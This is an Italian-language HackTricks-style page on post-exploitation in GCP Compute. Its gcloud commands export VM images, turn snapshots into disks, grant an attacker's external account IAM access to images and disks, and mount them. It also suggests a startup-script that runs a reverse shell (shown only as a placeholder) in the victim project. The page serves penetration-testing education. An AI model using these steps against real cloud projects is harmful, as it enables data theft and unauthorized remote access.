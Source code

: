 # GCP - Compute Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Compute

Per ulteriori informazioni su Compute e VPC (Networking) controlla:

{{#ref}}
../gcp-services/gcp-compute-instances-enum/
{{#endref}}

### Esporta e ispeziona le immagini localmente

Questo permetterebbe a un attaccante di **accedere ai dati contenuti all'interno di immagini già esistenti** o **creare nuove immagini di VM in esecuzione** e accedere ai loro dati senza avere accesso alla VM in esecuzione.

È possibile esportare un'immagine VM in un bucket e poi scaricarla e montarla localmente con il comando:
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
Per eseguire questa azione, l'attaccante potrebbe aver bisogno di privilegi sul bucket di archiviazione e sicuramente **privilegi su cloudbuild**, poiché è il **servizio** che verrà richiesto di eseguire l'esportazione.\
Inoltre, affinché questo funzioni, il SA di codebuild e il SA di compute necessitano di permessi privilegiati.\
Il SA di cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` ha bisogno di:

- roles/iam.serviceAccountTokenCreator
- roles/compute.admin
- roles/iam.serviceAccountUser

E il SA `<project-id>-compute@developer.gserviceaccount.com` ha bisogno di:

- roles/compute.storageAdmin
- roles/storage.objectAdmin

### Esporta e ispeziona snapshot e dischi localmente

Non è possibile esportare direttamente snapshot e dischi, ma è possibile **trasformare uno snapshot in un disco, un disco in un'immagine** e seguendo la **sezione precedente**, esportare quell'immagine per ispezionarla localmente.
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
### Ispezionare un'immagine creando una VM

Con l'obiettivo di accedere ai **dati memorizzati in un'immagine** o all'interno di una **VM in esecuzione** da cui un attaccante **ha creato un'immagine,** è possibile concedere a un account esterno l'accesso all'immagine:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
e poi crea una nuova VM da esso:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Se non puoi dare accesso al tuo account esterno tramite l'immagine, puoi avviare una VM utilizzando quell'immagine nel progetto della vittima e **far eseguire alla metadata una reverse shell** per accedere all'immagine aggiungendo il parametro:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Ispezionare uno Snapshot/Disk collegandolo a una VM

Con l'obiettivo di accedere ai **dati memorizzati in un disco o in uno snapshot, potresti trasformare lo snapshot in un disco, un disco in un'immagine e seguire i passaggi precedenti.**

Oppure potresti **concedere a un account esterno l'accesso** al disco (se il punto di partenza è uno snapshot, concedi l'accesso allo snapshot o crea un disco da esso):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Collegare il disco** a un'istanza:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Montare il disco all'interno della VM:

1.  **SSH nella VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```

2.  **Identificare il Disco**: Una volta dentro la VM, identifica il nuovo disco elencando i dispositivi disco. Tipicamente, puoi trovarlo come `/dev/sdb`, `/dev/sdc`, ecc.
3.  **Formattare e Montare il Disco** (se è un disco nuovo o raw):

- Crea un punto di montaggio:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```

- Monta il disco:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Se **non puoi dare accesso a un progetto esterno** allo snapshot o al disco, potresti dover **eseguire queste azioni all'interno di un'istanza nello stesso progetto dello snapshot/disk**.

{{#include ../../../banners/hacktricks-training.md}}
